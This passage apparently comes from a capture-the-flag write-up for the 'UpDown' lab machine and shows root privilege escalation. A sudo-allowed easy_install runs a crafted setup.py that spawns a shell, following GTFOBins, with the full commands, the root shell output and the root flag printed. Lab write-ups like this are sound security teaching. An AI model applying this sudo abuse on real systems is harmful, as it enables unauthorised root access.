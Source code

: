 Now lets move further →

```bash
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
developer@updown:~$
```
{: .nolineno}
{: .nolineno}

I found the exploit through [GTFOBin](https://gtfobins.github.io/gtfobins/easy_install/#sudo) →

```bash
developer@updown:/tmp$ TF=$(mktemp -d)
developer@updown:/tmp$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:/tmp$ sudo easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.L1OIVDJdYk
Writing /tmp/tmp.L1OIVDJdYk/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.L1OIVDJdYk/egg-dist-tmp-lLxWgc
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -al
total 44
drwx------  6 root root 4096 Dec 30 06:38 .
drwxr-xr-x 19 root root 4096 Aug  3  2022 ..
lrwxrwxrwx  1 root root    9 Jul 27  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root   11 Jun 22  2022 .bash_logout
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Jun 22  2022 .cache
drwxr-xr-x  3 root root 4096 Jul 27  2022 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   66 Aug  1  2022 .selected_editor
drwx------  2 root root 4096 Jun 22  2022 .ssh
-rw-r-----  1 root root   33 Dec 30 06:38 root.txt
drwx------  3 root root 4096 Jun 22  2022 snap
# cat root.txt
39ddd8eb7ecdad477bd19568207a0891
#
```
{: .nolineno}
{: .nolineno}

I am root now !

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }